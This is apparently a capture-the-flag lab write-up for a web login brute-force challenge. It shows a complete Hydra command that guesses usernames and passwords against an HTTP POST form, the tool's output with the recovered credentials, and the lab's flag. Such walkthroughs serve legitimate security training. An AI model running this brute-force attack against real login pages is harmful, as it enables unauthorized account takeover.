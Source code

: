Remember that crafting the correct `params` string is crucial for a successful Hydra attack. Accurate information about the form's structure and behavior is essential for constructing this string effectively. Once Hydra has completed the attack, log into the website using the found credentials, and retrieve the flag.

# Question
---

![](cybersecurity/images/Pasted%2520image%252020250213151909.png)

We can use the following hydra command:

```
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s PORT http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials" -t 60
```

We get the following output:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-13 20:19:47
[DATA] max 60 tasks per 1 server, overall 60 tasks, 3400 login tries (l:17/p:200), ~57 tries per task
[DATA] attacking http-post-form://94.237.54.190:48919/:username=^USER^&password=^PASS^:F=Invalid credentials
[48919][http-post-form] host: 94.237.54.190   login: admin   password: zxcvbnm
[STATUS] attack finished for 94.237.54.190 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Got credentials:

```
`admin`:`zxcvbnm`
```

![](cybersecurity/images/Pasted%2520image%252020250213152115.png)

Flag is:

```
HTB{W3b_L0gin_Brut3F0rc3}
```

